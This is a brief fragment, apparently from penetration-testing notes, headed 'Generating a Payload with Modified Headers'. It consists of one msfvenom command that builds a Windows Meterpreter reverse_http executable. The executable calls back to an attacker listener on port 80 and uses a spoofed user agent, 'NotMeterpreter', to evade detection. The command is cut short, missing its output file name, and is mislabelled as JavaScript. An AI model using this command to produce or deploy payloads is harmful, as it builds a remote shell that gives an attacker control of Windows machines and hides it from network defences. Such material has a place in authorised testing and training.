 **Generating a Payload with Modified Headers**
```JavaScript
msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o
```
